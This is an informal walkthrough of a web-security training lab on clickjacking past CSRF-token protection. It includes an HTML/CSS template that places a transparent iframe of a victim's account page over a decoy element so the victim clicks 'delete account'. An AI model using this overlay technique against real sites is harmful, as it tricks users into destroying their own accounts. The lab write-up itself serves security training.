

## Clickjacking with CSRF token Protection

\


\

### So lets start With Click on the Access labs
To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

\


### Firstly Click on My account Section

In my account section You can log in to your own account using the following credentials: wiener:peter


### IN Lab Click on Go to Exploit the server
We assume that you a basic knowledge of HTML head and CSS...

\

```markup
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

Soo we further procced


**In Css several changes like giving height and width and Change opacity to view the content to fool our victim**
\
\
\

**In Css several changes like giving height and width and Change opacity to view the content to fool our victim**

\

***And then you to store the exploit and Preivew the exploit is it correctly over the Delete Button***

***When the condition is favorable then deploy the exploit to the victim server**

### And BOOM Exploit works and You solve the labs

\

***For more information stay tuned with us 
